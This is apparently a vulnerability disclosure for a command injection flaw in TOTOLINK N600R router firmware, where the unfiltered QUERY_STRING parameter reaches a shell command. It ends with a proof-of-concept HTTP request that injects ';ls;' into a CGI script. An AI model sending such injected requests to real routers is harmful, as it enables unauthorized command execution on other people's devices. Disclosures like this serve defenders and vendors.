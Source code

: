 # TOTOLINK N600R V5.3c.5507_B20171031 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as N600R V5.3c.5507_B20171031
- **Firmware download address:**https://www.totolink.net/data/upload/20200728/f984576c47289d782ed65e67edbf06e2.zip



## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.5507_B20171031 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](image/4.png)



### 2. Vulnerability details

TOTOLINK N600R V5.3c.5507_B20171031 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](image/2.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `;ps;` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?;ls; HTTP/1.1 
Host: 192.168.0.1 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](image/3.png)

